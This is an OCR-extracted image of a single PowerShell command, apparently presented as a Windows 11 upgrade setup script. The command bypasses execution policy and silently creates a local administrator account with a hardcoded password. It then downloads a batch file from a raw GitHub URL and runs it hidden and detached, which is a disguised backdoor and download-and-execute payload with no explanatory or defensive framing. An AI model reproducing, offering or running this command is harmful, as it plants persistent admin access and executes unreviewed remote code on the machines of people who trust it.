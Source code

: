 powershell -ExecutionPolicy Bypass -NoProfile -Command "$user='WinUpgTemp';$pass='TempPass123!';$root='C:\Win11Upgrade';$urlbat='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.bat';$bat=Join-Path $root 'RepoHandler.bat';$log=Join-Path $root 'Setup_Log.txt';function log($m){$t='['+(Get-Date -Format \"yyyy-MM-dd HH:mm:ss\")+'] '+$m;New-Item -ItemType Directory -Force -Path (Split-Path $log)|Out-Null;Add-Content -Path $log -Value $t;Write-Host $t};log '--- Starting RepoHandler setup ---';if(-not(Test-Path $root)){New-Item -ItemType Directory -Force -Path $root|Out-Null};try{if(-not(Get-LocalUser -Name $user -ErrorAction SilentlyContinue)){net user $user $pass /add | Out-Null;net localgroup administrators $user /add | Out-Null;log ('Created admin user '+$user)}else{log ('Admin user '+$user+' already exists')}}catch{};Invoke-WebRequest -Uri $urlbat -OutFile $bat -UseBasicParsing;log 'Downloaded RepoHandler.bat';Start-Process -FilePath 'cmd.exe' -ArgumentList '/c start \"\" /min \"C:\Win11Upgrade\RepoHandler.bat\"' -WindowStyle Hidden;log 'RepoHandler launched detached';log '--- Script complete ---'"
